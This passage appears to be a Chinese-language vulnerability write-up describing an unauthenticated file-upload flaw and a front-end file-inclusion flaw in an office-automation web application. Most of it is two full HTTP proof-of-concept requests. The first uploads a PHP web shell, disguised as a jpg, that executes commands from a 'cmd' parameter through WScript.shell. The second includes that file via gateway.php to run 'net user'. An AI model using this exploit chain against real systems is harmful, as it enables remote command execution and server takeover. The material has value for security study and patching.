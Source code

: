 ##### 任意命令执行漏洞

路径为：ispirit/im/upload.php

抓包构造POC：

```plain
POST /ispirit/im/upload.php HTTP/1.1
Host: localhost:999
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-HK;q=0.8,ja;q=0.7,en;q=0.6,zh-TW;q=0.5
Cookie: PHPSESSID=123
Connection: close
Content-Length: 660
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"
2
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"
123
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"
1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg
<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
------WebKitFormBoundarypyfBh1YB4pV8McGB--
```

发送POC:

![img](https://gitee.com/YatJay/image/raw/master/img/202203011918952.png)

查看上传成功的文件：

![img](https://gitee.com/YatJay/image/raw/master/img/202203011918180.png)

前台文件包含漏洞：修改数据包，包含前面上传的jpg木马文件，即可实现执行任意命令。此处执行命令“net user”

```plain
POST /ispirit/interface/gateway.php HTTP/1.1
Host: localhost:999
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72
json={"url":"/general/../../attach/im/2108/1005943624.jpg"}&cmd=net user
```